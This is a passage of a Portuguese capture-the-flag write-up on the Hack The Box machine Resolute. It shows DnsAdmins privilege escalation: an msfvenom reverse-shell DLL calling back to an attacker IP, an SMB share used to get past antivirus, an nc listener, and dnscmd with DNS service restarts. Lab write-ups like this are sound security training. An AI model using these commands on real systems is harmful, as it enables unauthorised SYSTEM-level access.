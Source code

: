 Ambos os serviços indicam **_(Pwn3d!)_**, O que significa que podemos executar commando tanto pelo crackmapexec em modo smb com o parametro "-x", como por WinRM. Mas como é mais directo por WinRM, não me vou privar...

Vimos na foto o tal grupo.

# Grupo MEGABANK\DnsAdmins

Este group permite aos seus membros configurar, iniciar, e parar o serviço dns do windows. O serviço DNS pode carregar configurações a partir de ficheiros.dll. E este serviço é iniciado com privilégios máximos de Authority System! Posto isso, é fácil elaborar um exploit para nos converter-mos em administrador da máquina. O commando que queremo que o alvo execute é um reverse shell

## Criação do ficheiro.dll malicioso

```bash
[Environment]::Is64BitOperatingSystem
#>  True
```

A máquina é de 64 bits, portanto o reverse shell terá de 64 bits

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443 -f dll -o rev.dll
```

Iremos agora transferir o ficheiro para a máquina alvo com, por exemplo, certutil:

![Antivirus bloqueia o rev.dll](Assets/HTB-Windows-Medium-Resolute/dnsadmin-blocked_by_antivirus.png)

OH SHIT! O antivírus está ativo... Temos 2 soluções, ou ofuscar o código (que pode levar alguma tentativas porque não fica um ficheiro limpo) ou partilhar um servidor Samba, porque o dll malicioso pode ser chamado a partir de fora da máquina alvo!

```bash
sudo smbserver.py smbFolder $(pwd) -smb2support  # o reverse shell tem de se encontrar na pasta onde se executa o commando

sudo rlwrap nc -lvnp 443
```

```powershell
dnscmd /config /serverlevelplugindll \\10.10.14.12\smbFolder\rev.dll
#>  Registry property serverlevelplugindll successfully reset.
#>  Command completed successfully.

sc.exe stop dns
# Espere uns 5 segundos (Porque é Windows...)

sc.exe start dns
```